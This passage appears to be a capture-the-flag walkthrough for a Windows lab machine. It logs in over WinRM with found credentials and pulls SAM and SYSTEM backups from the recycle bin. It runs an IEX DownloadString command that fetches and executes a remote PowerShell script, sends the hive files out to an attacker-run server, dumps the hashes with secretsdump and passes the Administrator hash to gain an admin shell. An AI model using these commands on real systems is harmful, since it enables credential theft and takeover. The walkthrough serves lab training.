






Using the creds for Jareth:

We can login through winrm:
```
evil-winrm -i 10.10.144.13 -u Jareth -p sarah
```

We have a flag in Desktop.

We find a recycle bin with `ls -fo`:


Now we can check files here:


We have system and sam in one of those directories:


Now starting a python server on kali:
```
python3 -m uploadserver 80
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.23.10.19/PSUpload.ps1')
```
```
Invoke-FileUpload -Uri http://10.23.10.19/upload -File sam.bak
Invoke-FileUpload -Uri http://10.23.10.19/upload -File system.bak
```

Now we have the files on our machine.

We can use secretsdump.py:
```
secretsdump.py LOCAL -sam sam.bak -system system.bak
```


Now getting an nt authority shell with evil-winrm:
```
evil-winrm -i 10.10.144.13 -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a
```

